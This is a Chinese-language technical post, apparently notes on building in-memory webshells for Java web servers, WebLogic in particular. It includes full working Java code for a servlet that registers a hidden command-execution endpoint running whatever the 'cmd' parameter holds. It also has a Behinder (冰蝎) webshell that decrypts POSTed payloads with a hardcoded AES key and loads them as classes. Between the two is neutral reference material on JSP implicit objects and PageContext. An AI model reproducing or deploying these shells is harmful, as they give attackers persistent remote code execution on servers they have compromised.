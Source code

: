 java web项目的java代码一般都是在三大组件中执行的，不能像一般java项目中从main函数中执行，如果要在初始化的时候就执行可以放在ServletContextListener的contextInitialized方法中执行，如果要模拟JSP的调用，可以写一个继承HttpServlet的类，然后在doGet方法中执行，这对测试基于JSP运行的内存马很方便，在servlet中可以运行之类可以直接移动到JSP页面运行，例如

package web;

import weblogic.servlet.internal.ServletStubImpl;
import weblogic.servlet.internal.WebAppServletContext;
import weblogic.servlet.utils.ServletMapping;

import javax.servlet.*;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStreamReader;
import java.io.PrintWriter;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;

@WebServlet("/regserv")
public class evilServlet2 implements Servlet {
    public void init(ServletConfig servletConfig) throws ServletException {

    }

    public ServletConfig getServletConfig() {
        return null;
    }

    public void service(ServletRequest servletRequest, ServletResponse servletResponse) throws ServletException, IOException {

        // 创建servlet
        HttpServlet httpServlet = new HttpServlet() {
            @Override
            protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
                String cmd = req.getParameter("cmd");
                if (cmd != null) {
                    Process process = Runtime.getRuntime().exec(cmd);
                    BufferedReader bufferedReader = new BufferedReader(new InputStreamReader(process.getInputStream(), "GBK"));
                    String a;
                    PrintWriter out = resp.getWriter();
                    while ((a = bufferedReader.readLine()) != null) {
                        out.write(a);
                    }
                    out.flush();
                    out.close();
                    process.destroy();
                }


                return;
            }
        };

        String URI = "/aaa";
// 获取servletContext
        weblogic.servlet.internal.WebAppServletContext servletContext = (WebAppServletContext) servletRequest.getServletContext();

        try {
            // 获取servletMapping
            Method getServletMapping = servletContext.getClass().getDeclaredMethod("getServletMapping");
            getServletMapping.setAccessible(true);
            ServletMapping mappings = (ServletMapping) getServletMapping.invoke(servletContext);

            // 使用ServletStub包装HttpServlet
            Constructor<?> ServletStubImplConstructor = Class.forName("weblogic.servlet.internal.ServletStubImpl").getDeclaredConstructor(String.class, Servlet.class, WebAppServletContext.class);
            ServletStubImplConstructor.setAccessible(true);
            ServletStubImpl servletStub = (ServletStubImpl) ServletStubImplConstructor.newInstance(URI, httpServlet, servletContext);

            // 使用URLMathchHelper包装ServletStub
            Constructor<?> URLMatchHelperConstructor = Class.forName("weblogic.servlet.internal.URLMatchHelper").getDeclaredConstructor(String.class, ServletStubImpl.class);
            URLMatchHelperConstructor.setAccessible(true);
            Object umh = URLMatchHelperConstructor.newInstance(URI, servletStub);

            // 添加到ServletMapping中，即代表注入servlet内存马成功
            if (mappings.get(URI) == null){
                mappings.put(URI, umh);
            }

        } catch (NoSuchMethodException | InvocationTargetException | IllegalAccessException | ClassNotFoundException | InstantiationException e) {
            e.printStackTrace();
        }

    }

    public String getServletInfo() {
        return null;
    }

    public void destroy() {

    }
}


关于JSP中预定义的对象：
在JSP页面中，你可以直接使用一些预定义的变量，这些变量是由Servlet容器（如Tomcat或WebLogic）提供的。这些预定义的变量包括以下几个：

request：HttpServletRequest对象，代表客户端的请求。
response：HttpServletResponse对象，代表服务端的响应。
out：JspWriter对象，用于输出HTML到客户端。
session：HttpSession对象，代表客户端的会话。
application：ServletContext对象，代表Web应用程序的上下文。
config：ServletConfig对象，包含了Servlet的初始化参数。
pageContext：PageContext对象，提供了对上述所有对象以及其他页面范围的属性的访问。

关于JSP的PageContext对象：
PageContext是JSP的一个核心概念，它为JSP页面提供了一种方式来访问特定的名称空间，并提供了一些有用的页面级别的服务。在PageContext中，你可以通过调用相应的getter方法来获取到其他的预定义变量，例如：

PageContext.getRequest()：返回HttpServletRequest对象。
PageContext.getResponse()：返回HttpServletResponse对象。
PageContext.getOut()：返回JspWriter对象。
PageContext.getSession()：返回HttpSession对象。
PageContext.getApplication()：返回ServletContext对象。
另外，PageContext还提供了一系列的方法，允许你在不同的范围（page, request, session, application）中设置和获取属性：

PageContext.setAttribute(String name, Object value)：将给定的对象绑定到给定的名称并存储在页面范围内。同样的，还有对应的request.setAttribute(), session.setAttribute()和application.setAttribute()等方法，可以在不同的范围中设置属性。
PageContext.getAttribute(String name)：返回存储在给定名称的页面范围内的对象。同样的，还有对应的request.getAttribute(), session.getAttribute()和application.getAttribute()等方法，可以在不同的范围中获取属性。


冰蝎内存马的java代码只需要在原来基础上稍微修改一下，以下是冰蝎 servlet类型内存马，不过需要记得冰蝎是post请求，冰蝎服务端需要写在doPost函数下面：

package web;

import javax.crypto.BadPaddingException;
import javax.crypto.Cipher;
import javax.crypto.IllegalBlockSizeException;
import javax.crypto.NoSuchPaddingException;
import javax.crypto.spec.SecretKeySpec;
import javax.servlet.*;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import javax.servlet.http.HttpSession;
import java.io.IOException;
import java.security.InvalidKeyException;
import java.security.NoSuchAlgorithmException;


//恶意的servlet实现的冰蝎内存马
//可以通过在tomcat或者weblogic上用jsp注册的一个servlet的方式，将这个内存马插入到服务器中

@WebServlet("/evil")
public class evilServlet extends HttpServlet {
    @Override
    protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        super.doGet(req, resp);
    }

    @Override
    protected void doPost(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        class U extends ClassLoader{
            U(ClassLoader c){
                super(c);
            }
            public Class g(byte []b){
                return super.defineClass(b,0,b.length);
            }
        }


        String k = "e45e329feb5d925b";
        HttpSession session = req.getSession();
        session.setAttribute("u", k);
        Cipher c = null;
        try {
            c = Cipher.getInstance("AES");
        } catch (NoSuchAlgorithmException e) {
            e.printStackTrace();
        } catch (NoSuchPaddingException e) {
            e.printStackTrace();
        }
        try {
            c.init(2, new SecretKeySpec(k.getBytes(), "AES"));
        } catch (InvalidKeyException e) {
            e.printStackTrace();
        }
        javax.servlet.jsp.PageContext pageContext = javax.servlet.jsp.JspFactory.getDefaultFactory().getPageContext(this, req, resp, null, true, 8192, true);
        try {
            new U(this.getClass().getClassLoader()).g(
                    c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(req.getReader().readLine()))).newInstance().equals(pageContext);
        } catch (InstantiationException e) {
            e.printStackTrace();
        } catch (IllegalAccessException e) {
            e.printStackTrace();
        } catch (IllegalBlockSizeException e) {
            e.printStackTrace();
        } catch (BadPaddingException e) {
            e.printStackTrace();
        }



    }
}
